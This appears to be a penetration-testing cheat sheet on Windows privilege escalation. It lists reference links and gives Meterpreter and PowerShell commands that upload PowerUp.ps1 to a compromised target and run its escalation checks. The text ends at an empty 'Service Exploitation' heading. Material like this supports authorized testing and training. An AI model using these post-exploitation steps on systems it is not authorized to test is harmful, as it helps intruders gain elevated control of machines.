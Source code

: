 # Windows Privilege Escalation
Commands for escalating privileges on Windows systems

## Useful Links
- [HackTricks - Windows Privilege Escalation Checklist](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation)
- [GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)
- [411Hall/JAWS](https://github.com/411Hall/JAWS)
- [LOLBAS Project](https://lolbas-project.github.io/)
- [Red-Teaming-Toolkit - Payload Development](https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development)

## PowerUp Checks

### Upload PowerUp.ps1 (Meterpreter)
```bash copy
upload /home/kali/Desktop/PowerUp.ps1
```
- Uploads PowerUp.ps1 to the target system via Meterpreter.


### Load PowerShell in Meterpreter
```bash copy
load powershell
```
- Loads the PowerShell module in Meterpreter.


### Open PowerShell shell
```bash copy
powershell_shell
```
- Opens an interactive PowerShell session in Meterpreter.


### Run PowerUp.ps1
```powershell copy
. .\PowerUp.ps1
```
- Loads the PowerUp.ps1 script in PowerShell.


### Run all PowerUp checks
```powershell copy
Invoke-AllChecks
```
- Executes all privilege escalation checks in PowerUp.ps1.


## Service Exploitation
